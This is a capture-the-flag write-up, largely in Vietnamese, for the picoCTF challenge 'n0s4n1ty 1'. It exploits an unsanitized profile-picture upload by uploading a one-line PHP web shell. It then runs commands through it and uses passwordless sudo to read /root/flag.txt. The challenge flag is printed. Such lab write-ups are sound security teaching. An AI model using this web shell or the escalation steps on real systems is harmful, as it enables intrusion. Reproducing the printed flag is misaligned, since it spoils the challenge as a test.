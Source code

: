 # 🧠 Challenge: n0s4n1ty 1

---

## 📝 **Description**

> A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

---

## 💡 **Hint**

- `File upload was not sanitized`
- `Whenever you get a shell on a remote machine, check sudo -l`

---

## 🔍 **Initial Analysis**

Khi khởi động challenge, người dùng được cung cấp một giao diện web với chức năng **tải ảnh đại diện**.
![](../img/n0s4n1ty-1.png)
Kiểm tra mã JavaScript phía frontend:

```javascript
var loadFile = function(event) {
    var input = event.target;
    var file = input.files[0];
    var type = file.type;
    var output = document.getElementById('preview_img');

    output.src = URL.createObjectURL(event.target.files[0]);
    output.onload = function() {
        URL.revokeObjectURL(output.src); // free memory
    }
};
```
Đây chỉ là mã preview ảnh, không có cơ chế lọc nội dung file upload, cho thấy khả năng tồn tại lỗ hổng unsanitized file upload.
Kiểm tra sever và web có hoạt động ổn định bằng việc upload thử 1 file ảnh có dung lượng nhỏ:
![](../img/n0s4n1ty-1-test.png)
![](../img/n0s4n1ty-1-test-output.png)
![](../img/n0s4n1ty-1-test-output-img.png)

---
## 🚩 **Exploit: Unsanitized File Upload → Web Shell**

**Tạo 1 file shell php với nội dung:**
```php
<?php system($_GET['cmd']); ?>
```
**Upload file php lên web và truy cập vào đường dẫn http://<host>:<port>/uploads/shell.php?cmd=id** 
> Ta thấy lệnh được thực thi, cho thấy ta có thể **Remote Code Execution.**

Như hint của bài thì ta dùng câu lệnh ``sudo -l`` cho kết quả : 
![](../img/n0s4n1ty-1-payload.png)
> ``User www-data`` → người dùng hiện tại.
> 
> ``may run the following commands`` → được phép chạy...
> 
> ``(ALL)`` → với tư cách bất kỳ user nào (bao gồm cả root).
> 
> ``NOPASSWD`` → không cần nhập mật khẩu khi dùng sudo.
> 
> ``ALL`` → chạy được tất cả lệnh.
>

Kết quả cho ta biết : User hiện tại có thể thực thi mọi lệnh dưới quyền root mà không cần mật khẩu.

Sử dụng câu lệnh : `` sudo ls /root `` 

Trả lại kết quả là : `` flag.txt ``

Tiếp sau đó dùng câu lệnh : `` sudo cat /root/flag.txt `` để đọc file flag.txt và nhận được flag

### Flag : `` picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0} ``
